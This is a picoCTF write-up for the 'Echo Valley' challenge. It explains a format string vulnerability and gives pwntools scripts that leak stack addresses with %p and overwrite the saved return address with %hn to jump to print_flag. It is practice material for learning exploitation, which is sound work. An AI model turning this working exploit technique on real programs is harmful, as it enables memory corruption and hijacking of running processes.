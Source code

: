 +++
title = "Echo Valley"
date = 2025-04-10
authors = ["rishit khandelwal"]
+++

# picoCTF

So when we first run `./valley`, we can observe that it asks us for some input as `Welcome to the Echo Valley, Try Shouting: \n`.

Looking into the code we can see that, `main()` simply calls `echo_valley`.
Looking into the code for `echo_valley` we see that its reads 100 bytes into a buffer of 100 bytes using `fgets`.
This essentially means that there is probably no buffer overflow in this case.

Looking down further we see:

```c
printf("You heard in the distance: ");
printf(buf);
```

This is obviously a format string vulnerability, and so we have arbitrary read/writes.
To win this challenge, we simply need to overwrite the stored rip on the stack such that when we enter "exit" we return to `print_flag` instead of `main`.

We can see by running `checksec` on the binary, that PIE is enabled so we cant just get the address of the function, but thats no problem, since we can just leak any other address from the stack which we know points to some known location, we can calculate the address of `print_flag`.
Going into `gdb`, we run the program and examine the stack to find the old rip on the stack.
If we leak the address using the format string vulnerability instead (lets just write a script to do that)

```py

from pwn import *

context.clear(arch = 'amd64')
p = process("./valley")

p.recv()
p.sendline(b"%p "*30)
print(p.recv().decode())
```

If we run this script a couple of times we notice that some the addresses seem to not change for the last few digits.
In my case the addresses which start with 0x7ffc--- seem to remain roughly the same in the last few digits.

```
0x7ffc292cc540 (nil) (nil) 0x561fa1a3670b 0x1 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0xa2070 (nil) 0xe227b993d1d31a00 0x7ffc292cc770 0x561f8ed4f413 0x7ffc292cc810 0x7f26175c9248 0x7ffc292cc7c0 0x7ffc292cc898 0x18ed4e040 0x561f8ed4f401 0x7ffc292cc898 0xf570526974ed44af 0x1
```

Doing this in gdb we can notice that the 21st seems to be the return address and the 20th one points to 8 bytes ahead of the return address.

So first we receive the address at the 20th position, then we subtract 8 to get the address at which we have to write the winning address.

We get the address at the 21st and then offset it by some value to get the address for `print_flag`.
By running `objdump -D valley` we can find the offsets of `main` and `print_flag`.
`main` is at 0x1401
`print_flag` is at 0x1269
but the address we get from the leak isnt exactly at `main`, so we go into gdb and find out the offset for from the address we got from the 21st address to main which turns out to be 0x1aa.

So we subtract 0x1aa from to get the address we want to overwrite.

So now we have both the value we want to overwrite and where we want to overwrite.
The way we can write is by using the `%n` format specifier.
Basically, `printf("AAAA%n", 0xdeadbeef);` will write 4 (from AAAA being printed being 4 bytes) to 0xdeadbeef.

Now you might wonder, we cant pass any arguments to `printf`, how do we write to any arbitrary address we want. Well we simply add the address as bytes into our payload. How does that help?
Well you might have noticed above that there are a lot of repeating x2070252070252070 in the above, what does that mean?
It means that our input is also accessible as arguments to `printf`! We can just point to the address we added as bytes into our input.

But we need to write an entire 64 bit address into at some address, and we dont really have that many bytes to spare (only a 100). So there are two solutions to this problem.

1. We use the padding feature for format specifier to make the string many times longer than it wouldve been otherwise.
2. Instead of overwriting the entire address and the gazzilions of bytes it would take, we just overwrite the last 2 bytes since only it remains the same (atleast the last 3 nibbles).

We can overwrite just the last 2 bytes by using `%hn` instead of using `%n` whose effect is essentially the same except that it writes just 2 bytes.

So our exploit script looks like:

```py
p.sendline(b"%20$p")
addr = p.recvuntil('\n')[29:-1].decode()
print(addr)
addr = int(addr, base=16)
addr -= 8
# now addr points to the old rip
p.sendline(b"%21$p")
win_addr = p.recvuntil('\n')[29:-1].decode()
win_addr = int(win_addr, base=16)
win_addr -= 0x1aa

win_addr_low = win_addr & 0xffff
# Since we only need to overwrite the last 2 bytes
```

Now the payload:

```py
payload = f"%{win_addr_low}x%8$hn".encode('utf-8')+p64(addr)
# Foreshadowing
p.sendline(payload)
p.sendline(b"exit")
print(p.recv())
```

But this obviously doesnt work! We dont know where the address actually is do we?
So we simply enter into gdb, and enter the payload, and try to figure out the argument the address aligns with.
By trial and error we see that by adding some spaces we can manage to have the address be exactly at the position of the 8th argument.

```py
x = len(str(win_addr_low)) # the length of the address in decimal
payload = f"%{win_addr_low-6}x{(9-x)*' '}".encode("utf-8")
payload += f"%8$hn".encode('utf-8')
payload += p64(addr)

p.sendline(payload)
p.sendline(b"exit")
print(p.recv())
```

The first change is that we subtract 6 from `win_addr_low`, as we are adding spaces to actually pad the address, we lessen the "apparent padding" to make sure the value remains the same.
Next depending upon the length of the decimal representation of `win_addr_low`, we may need to write 3 or 4 bytes so we add `9-x` spaces.

Now we simply need to run the full script and it should give us the flag!
But the script fails! Now why could that be, the logic seems flawless and there are no issues with the script either.
By strategically adding `print`s throughout the script i discovered this only seems to work if the 1st of the 4 nibbles im writing is 0 (i have no idea why).
By running the script a couple of times it worked once, and i knew it ran `print_flag`.

```txt
b'The Valley Disappears\nFailed to open flag file: No such file or directory\n'
[*] Process './valley' stopped with exit code 1 (pid 14436)
```
